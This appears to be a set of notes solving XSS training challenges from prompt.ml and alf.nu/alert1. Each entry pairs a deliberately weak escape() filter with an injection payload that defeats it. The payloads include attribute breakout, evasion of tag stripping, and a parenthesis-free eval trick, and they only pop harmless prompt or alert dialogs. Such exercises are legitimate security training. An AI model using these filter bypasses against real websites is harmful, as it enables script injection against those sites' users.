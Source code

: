 # prompt.ml

## 1. Warm up

- Task
 
```js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

- Solution

```js
"><svg onload=prompt(1)> <!--
```

## 2. Tag stripping

- Task

```js
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

- Solution

```js
<svg onload=prompt(1) // 
```

## 3. Parenthesis-less

- Task

```js
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}     
```

- Solution

```js
<script>eval.call`${'prompt\x281\x29'}`</script>
```

# alf.nu/alert1

-Task

```js
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

-Solution

```js
"); alert(1) //
```

-Task

```js
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```js
\"); alert(1) //
```
